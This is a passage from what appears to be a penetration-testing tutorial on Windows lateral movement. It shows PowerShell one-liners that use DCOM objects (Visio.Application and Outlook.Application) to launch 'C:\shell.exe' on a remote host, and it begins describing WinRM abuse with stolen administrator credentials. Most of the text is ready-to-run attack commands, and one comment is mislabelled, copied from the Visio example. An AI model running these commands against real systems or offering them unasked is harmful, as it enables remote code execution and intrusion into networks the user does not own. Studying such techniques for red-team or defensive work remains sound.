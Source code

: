 ### Visio.Application

`Visio` is required to be installed in the target host.

```powershell
# Create an instance of the Visio.Application object by remote interaction with DCOM through PowerShell:
$com = [activate]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","10.10.10.137"))

# Then execute the following command, and we can call the "shellExecute" method of the object to start the process on the remote host:
$com.[0].Document.Application.shellExecute("calc.exe")

# Complete command:
[activate]::CreateInstance([type]::GetTypeFromProgID("Visio.Application","10.10.10.137")).[0].Document.Application.shellExecute("C:\shell.exe")
```

### Outlook.Application

You need to have `Outlook` installed in the target host, and create a `Shell.Application` object through `Outlook` to implement command line execution.

```powershell
# Create an instance of the Visio.Application object by remote interaction with DCOM through PowerShell:
$com = [activate]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","10.10.10.137"))

# Then execute the following command, create the Shell.Application object through Outlook and execute the command:
$com.createObject("Shell.Application").shellExecute("C:\shell.exe")

# Complete command:
[activate]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","10.10.10.137")).createObject("Shell.Application").shellExecute("C:\shell.exe")
```

# Utilization of WinRM

`WinRM` is implemented remote management by executing the `WS-Management` protocol (Web service protocol for remote software and hardware management), allowing `Windows` computers in a common network to access and exchange information with each other, and the corresponding port is `5985`. After one computer enables the WinRM service, the firewall will automatically release its relevant communication ports, and it can be remotely managed through WinRM on another computer.

Note that the WinRM service will start automatically only in servers with `Windows Server 2008` or above. When an attacker uses WinRM for horizontal movement, he needs to have the administrator credential information of the remote host.

## Execute remote commands through WinRM

`Windows` Remote Management provides the following two command line tools:
